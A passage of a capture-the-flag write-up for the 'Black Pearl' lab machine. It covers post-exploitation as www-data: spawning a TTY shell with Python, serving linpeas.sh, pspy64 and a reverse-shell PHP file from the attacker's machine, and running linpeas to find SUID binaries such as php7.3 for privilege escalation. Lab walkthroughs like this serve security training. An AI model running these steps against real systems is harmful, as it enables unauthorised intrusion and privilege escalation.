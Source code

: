 <aside>
💡 Well, we dont have sudo but we got into the www-data user.

</aside>

Lets spawn a tty shell first

```jsx
which python
/usr/bin/python
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@blackpearl:~/blackpearl.tcm/navigate$
```

We need privilege escalation so lets try on linpeas.

```jsx
┌──(wahaj㉿wahaj)-[~]
└─$ cd /transfers 
                                                                                                                                                               
┌──(wahaj㉿wahaj)-[/transfers]
└─$ ls
linpeas.sh  pspy64  reverse-shell.php
                                                                                                                                                               
                                                                                                                                                               
┌──(wahaj㉿wahaj)-[/transfers]
└─$ sudo python3 -m http.server 80
[sudo] password for wahaj: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

<aside>
💡 Download the [linpeas.sh](http://linpeas.sh) file in the machine.

</aside>

```jsx
chmod +x linpeas.sh
./linpeas.sh
```

<aside>
💡 Scrolling through, there is one directory standing out, lets keep it
rwxr-xr-x 1 www-data www-data 12282 May 30 2021 /var/www/blackpearl.tcm/navigate/lib/packages/backups/backups.php

</aside>

Some more interesting files

```jsx
====================================( Interesting Files )=====================================
[+] SUID                                                                                                                                                       
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands                                                           
/usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                                                                                    
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount         --->    BSD/Linux[1996-08-13]
/usr/bin/newgrp         --->    HP-UX_10.20
/usr/bin/mount          --->    Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
/usr/bin/php7.3
/usr/bin/su
/usr/bin/chfn           --->    SuSE_9.3/10
/usr/bin/passwd         --->    Apple_Mac_OSX/Solaris/SPARC_8/9/Sun_Solaris_2.5.1_PAM
/usr/bin/chsh
/usr/bin/gpasswd
```
